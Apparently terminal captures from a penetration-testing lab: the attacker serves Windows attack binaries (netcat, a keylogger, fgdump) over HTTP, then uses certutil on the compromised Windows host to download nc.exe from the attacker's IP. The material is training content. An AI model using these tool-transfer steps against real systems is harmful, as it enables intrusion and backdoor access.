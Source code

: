```
root@attackdefense:~# ls -al /usr/share/windows-binaries/
total 1884
drwxr-xr-x  7 root root   4096 Feb 19  2020 .
drwxr-xr-x 16 root root   4096 Feb 19  2020 ..
drwxr-xr-x  2 root root   4096 Feb 19  2020 enumplus
-rwxr-xr-x  1 root root  53248 Jul 17  2019 exe2bat.exe
drwxr-xr-x  2 root root   4096 Feb 19  2020 fgdump
drwxr-xr-x  2 root root   4096 Feb 19  2020 fport
-rwxr-xr-x  1 root root  23552 Jul 17  2019 klogger.exe
drwxr-xr-x  2 root root   4096 Feb 19  2020 mbenum
drwxr-xr-x  4 root root   4096 Feb 19  2020 nbtenum
-rwxr-xr-x  1 root root  59392 Jul 17  2019 nc.exe
-rwxr-xr-x  1 root root 311296 Jul 17  2019 plink.exe
-rwxr-xr-x  1 root root 704512 Jul 17  2019 radmin.exe
-rwxr-xr-x  1 root root 364544 Jul 17  2019 vncviewer.exe
-rwxr-xr-x  1 root root 308736 Jul 17  2019 wget.exe
-rwxr-xr-x  1 root root  66560 Jul 17  2019 whoami.exe
```

```
root@attackdefense:~# cd /usr/share/windows-binaries/
root@attackdefense:/usr/share/windows-binaries# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

```

```
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd Desktop

C:\Users\Administrator\Desktop>certutil -urlcache -f http://10.10.21.3/nc.exe nc
.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\Administrator\Desktop>nc.exe -h
[v1.10 NT]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [options] [hostname] [port]
options:
        -d              detach from console, stealth mode

        -e prog         inbound program to exec [dangerous!!]
        -g gateway      source-routing hop point[s], up to 8
        -G num          source-routing pointer: 4, 8, 12, ...
        -h              this cruft
        -i secs         delay interval for lines sent, ports scanned
        -l              listen mode, for inbound connects
        -L              listen harder, re-listen on socket close
        -n              numeric-only IP addresses, no DNS
        -o file         hex dump of traffic
        -p port         local port number
        -r              randomize local and remote ports
        -s addr         local source address
        -t              answer TELNET negotiation
        -u              UDP mode
        -v              verbose [use twice to be more verbose]
        -w secs         timeout for connects and final net reads
        -z              zero-I/O mode [used for scanning]
port numbers can be individual or ranges: m-n [inclusive]

C:\Users\Administrator\Desktop>
```